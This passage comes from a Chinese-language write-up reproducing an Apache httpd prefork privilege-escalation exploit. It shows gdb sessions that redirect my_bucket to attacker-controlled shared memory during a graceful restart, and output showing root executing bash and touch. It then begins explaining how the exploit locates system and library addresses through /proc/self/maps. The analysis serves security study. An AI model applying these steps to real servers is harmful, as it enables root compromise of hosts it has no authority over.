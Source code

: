     root      20112  0.0  0.0 112708   980 pts/2    R+   14:30   0:00 grep --color=auto httpd
    [root@bogon john]# gdb attach 19895
    (gdb) break child_main
    Breakpoint 1 at 0x46c000: file prefork.c, line 380.
    (gdb) set follow-fork-mode child
    (gdb) c

##### 执行apachectl graceful，使其优雅重启

    [root@bogon john]# apachectl graceful
    [root@bogon john]# 

##### 修改my\_bucket

我们将my\_bucket，设置为0x7f1f62a3e140，该地址是执行恶意PHP代码时，输出的evil\_shm\_mid\_addr

    Continuing.

    Program received signal SIGUSR1, User defined signal 1.
    0x00007f1f612bdf53 in __select_nocancel () from /lib64/libc.so.6
    (gdb) c
    Continuing.
    [New process 20155]
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib64/libthread_db.so.1".
    [Switching to Thread 0x7f1f62ae9780 (LWP 20155)]

    Breakpoint 1, child_main (child_num_arg=child_num_arg@entry=0, child_bucket=child_bucket@entry=0) at prefork.c:380
    380    {
    (gdb) set my_bucket = 0x7f1f62a3e140
    (gdb) c
    Continuing.
    [New process 20177]
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib64/libthread_db.so.1".
    process 20177 is executing new program: /usr/bin/bash
    Error in re-setting breakpoint 1: Function "child_main" not defined.
    process 20177 is executing new program: /usr/bin/touch
    Missing separate debuginfos, use: debuginfo-install bash-4.2.46-31.el7.x86_64
    [Inferior 3 (process 20177) exited normally]
    Missing separate debuginfos, use: debuginfo-install coreutils-8.22-23.el7.x86_64
    (gdb) 

##### 查看根目录，发现利用成功

    ➜  ~ ls /
    bin  boot  dev  etc  hello  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  www

#### EXP分析

1.在作者提供的Exp中，没有依赖具体的硬编码数值。在get\_all\_address函数中利用
/proc/self/maps和文件读取的方式定位到了如下shm, system, libaprR,
libaprX, apache,
zend\_object\_std\_dtor几个函数的地址以及共享内存起始地址。
